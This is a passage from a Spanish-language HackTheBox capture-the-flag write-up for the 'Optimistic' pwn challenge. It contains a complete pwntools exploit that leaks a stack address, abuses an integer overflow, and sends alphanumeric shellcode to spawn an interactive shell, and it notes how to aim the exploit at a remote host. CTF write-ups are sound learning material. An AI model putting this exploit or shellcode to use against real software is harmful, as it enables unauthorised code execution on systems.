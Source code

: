 Teniendo esto en consideración, desarrollamos el siguiente exploit, el cual se nos permite explotar binario de forma local con éxito: 

```python
#!/usr/bin/env python3

from pwn import process, p64, log

if __name__ == '__main__':
    p = process(b'./optimistic')
    p.sendlineafter(b'Would you like to enroll yourself? (y/n): ', b'y')

    # Extracting Stack Leak
    p.recvuntil(b'Great! Here\'s a small welcome gift: ')
    stack_leak = p.recvline().decode()
    stack_leak_addr = p64(int(stack_leak, 16) - 0x60)

    log.info(f"Stack Leaked Address: f{stack_leak}")
        
    p.sendafter(b'Email: ', b'a')
    p.sendafter(b'Age: ', b'-1')

    # Exploiting Integer Overflow
    p.sendlineafter(b'Length of name: ', b'-1')

    # Shellcode
    offset = 104
    shellcode = b'XXj0TYX45Pk13VX40473At1At1qu1qv1qwHcyt14yH34yhj5XVX1FK1FSH3FOPTj0X40PP4u4NZ4jWSEW18EF0V'
    padding = b'\x41' * (offset - len(shellcode)) 
    payload = shellcode + padding + stack_leak_addr
     
    p.sendafter(b'Name: ', payload)
    p.interactive()
```

Como se muestra en imagen, el exploit nos entrega una `shell` interactiva de forma inmediata:

![Untitled](/assets/img/htb/pwn/Optimistic/Untitled%2012.png)

Para completar el desafío, sólo debemos adaptar el exploit para que se conecte al host de HackTheBox con la función `remote`, en lugar de `process`:
